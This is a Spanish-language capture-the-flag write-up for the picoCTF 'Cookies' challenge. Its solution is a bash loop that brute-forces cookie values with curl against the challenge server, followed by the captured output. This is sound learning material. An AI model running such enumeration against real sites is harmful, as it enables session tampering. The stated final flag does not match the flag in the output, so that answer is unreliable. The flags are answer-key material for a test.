 # Cookies

## Objetivo

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)

## Solución

Se corre el siguiente codigo en bash...

```bash
#!/bin/bash
for i in {0..100}; do
	curl -s --cookie "name=$i" http://mercury.picoctf.net:29649/check;
done | grep picoCTF
```

Para obtener la bandera:

```bash
hone@Unidad03:/tmp$ bash code 
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
```

Bandera: *picoCTF{r3j3ct_th3_du4l1ty_8f878508}*

## Referencias
